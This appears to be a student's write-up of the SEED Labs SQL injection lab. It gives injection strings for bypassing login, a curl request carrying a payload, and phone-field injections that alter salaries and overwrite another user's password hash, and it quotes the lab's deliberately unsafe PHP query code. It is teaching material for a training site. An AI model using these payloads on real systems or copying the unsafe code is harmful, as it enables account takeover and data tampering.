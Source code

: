 # SQLINJECTION
Task 1:
	Log in MYSQL:
//code
		mysql -u root -pseedubuntu
		mysql> use Users;
		mysql> show tables;
	Use such a SQL query:
//code
		select * from credential where Name='Alice';
https://github.com/Farhanalo/SQLINJECTION/commit/d322de24f1f36333eb3d20845d1e440a737a4827
https://github.com/Farhanalo/SQLINJECTION/commit/d322de24f1f36333eb3d20845d1e440a737a4827
Task 2:
--> Task 2.1
	.USERNAME: "Admin' #"
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
//code
		SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		FROM credential
		WHERE name='Admin' #' && password='xyz'
--> Task 2.2
	1- Write Code on Terminator in Seed Lab:
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	2- Copy the HTML code.
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
	4. Run this location on browser
( attach)https://github.com/Farhanalo/SQLINJECTION/commit/d322de24f1f36333eb3d20845d1e440a737a4827

--> Task 2.3	
	inject statment to append a row to current database:
//code	
	INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
	After row inserted, go to browser and input as:
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #"
	.PASSWORD: "" (blank field)
( attach)https://github.com/Farhanalo/SQLINJECTION/commit/d322de24f1f36333eb3d20845d1e440a737a4827
(optional lines)
	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

Task 3
EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1
	1- Login as Username= 'Alice' && Password = xyz, 
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	3- Update Phone Number as ', Salary=1000000 and save.
--> Task 3.2
	1- Login as Username= 'Boby' #' and then open edit profile
	2- Update Phone Number: ',Salary=0 and remaining unchanges
( Attach)https://github.com/Farhanalo/SQLINJECTION/commit/d322de24f1f36333eb3d20845d1e440a737a4827
	Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #
--> Task 3.3
	We're login as Boby but change password of Alice
//backend code
	$conn = getDB();
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit();

Updation will be on Phone Number field;
Let Boby password as '123'. We must get SHA1 value of new password via some tool as:
	c0b656d5e415ca1a8e098a408f913ec229e120b6
Constuct Phone Number:
	', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
Save it and changes works accordingly. 
( attach)https://github.com/Farhanalo/SQLINJECTION/commit/d322de24f1f36333eb3d20845d1e440a737a4827
